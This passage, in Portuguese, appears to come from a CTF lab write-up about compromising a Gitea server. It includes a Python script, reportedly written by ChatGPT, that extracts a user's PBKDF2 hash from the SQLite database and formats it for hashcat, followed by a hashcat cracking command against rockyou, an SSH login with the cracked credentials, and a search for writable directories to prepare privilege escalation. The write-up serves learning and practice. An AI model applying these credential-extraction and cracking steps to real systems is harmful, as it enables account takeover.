 Após conseguimos o hash do usuário, podemos pesquisar maneiras de quebrar o PBKDF2 utilizando hashcat. Alguns posts que tratam do assunto são:

- <https://hashcat.net/forum/thread-7854.html>
- <https://hashcat.net/forum/thread-8391-post-44775.html#pid44775>

Após obtermos o hash do usuário, precisamos formatá-lo adequadamente para o hashcat. Para isso, solicitei o chatgpt para gerar um script que extrai e formata as informações no padrão que precisamos do banco de dados SQLite:

```python
import sqlite3
import base64

# Conectar ao banco de dados SQLite
conn = sqlite3.connect("gitea.db")
cursor = conn.cursor()

# Executar a query para obter os dados necessários
cursor.execute("SELECT passwd, salt, name FROM user WHERE name = 'developer'")


with open("gitea.hashes", "w") as f:
    for passwd_hex, salt_hex, name in cursor.fetchall():
        # Converter de hexadecimal para bytes e depois para Base64
        passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode()
        salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode()

        # Formatar no padrão Hashcat
        hashcat_entry = f"{name}:sha256:50000:{salt_b64}:{passwd_b64}"


        print(hashcat_entry)
        f.write(hashcat_entry + "\n")

conn.close()
```

Com o hash formatado corretamente, podemos então usar o hashcat para quebrá-lo:

4. Quebramos o hash usando hashcat:

```bash
hashcat -m 10900 -w 3 gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show --user
```

5. Agora podemos acessar a máquina com as credenciais de "developer", e coletamos a primeira flag.

## Post Exploitation

1. Poderíamos executar o linpeas para identificar as possibilidades de escalonamento de privilégios, porém nesse caso listaremos apenas os diretórios graváveis pelo nosso usuário.

```bash
find / -type d -writable 2>/dev/null
```
